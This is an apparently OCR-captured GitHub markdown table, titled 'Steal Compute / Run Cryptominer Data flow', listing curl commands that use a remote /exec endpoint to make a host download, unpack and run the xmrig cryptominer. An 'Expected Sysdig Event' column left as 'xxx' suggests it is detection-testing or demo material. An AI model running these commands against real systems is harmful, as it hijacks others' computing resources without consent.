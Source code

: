 # Steal Compute / Run Cryptominer Data flow

| Attack Step | Curl Command | Expected Sysdig Event |
|---|---|--|
| Download xmrig | `curl -X POST http://192.168.1.15/exec -d 'command=wget https://github.com/xmrig/xmrig/releases/download/v6.18.1/xmrig-6.18.1-linux-static-x64.tar.gz -O xmrig.tar.gz'` | xxx |
| Extract xmrig | `curl -X POST http://192.168.1.15/exec -d 'command=tar -xzvf xmrig.tar.gz'` | xxx |
| Run xmrig | `curl -X POST http://192.168.1.15/exec -d 'command=/app/xmrig-6.18.1/xmrig'` | xxx |